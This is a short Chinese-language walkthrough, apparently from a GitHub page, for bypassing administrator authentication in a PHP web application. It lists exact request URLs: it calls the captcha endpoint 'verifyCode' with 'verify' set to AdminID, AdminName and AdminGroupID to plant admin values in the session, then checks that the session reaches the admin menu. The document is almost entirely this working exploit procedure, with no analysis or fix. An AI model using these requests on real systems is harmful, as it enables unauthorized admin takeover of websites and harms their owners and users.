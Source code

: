 1.访问 /index.php/base?a=Version 判断版本

2.访问 /index.php/Admin/public/Login 生成一个 PHPSESSID

3.访问下面两条url 绕过session检测

```
/index.php/public/verifyCode?length=2&mode=1&width=22&height=22&verify=AdminID&type=png
/index.php/public/verifyCode?length=2&mode=1&width=22&height=22&verify=AdminName&type=png
```
4.访问 ```/index.php/public/verifyCode?length=2&mode=1&width=22&height=22&verify=AdminGroupID&type=png```

5.访问  ```/index.php/Admin/Public/AdminLeft/MenuTopID/7 判断PHPSESSID是否有效```
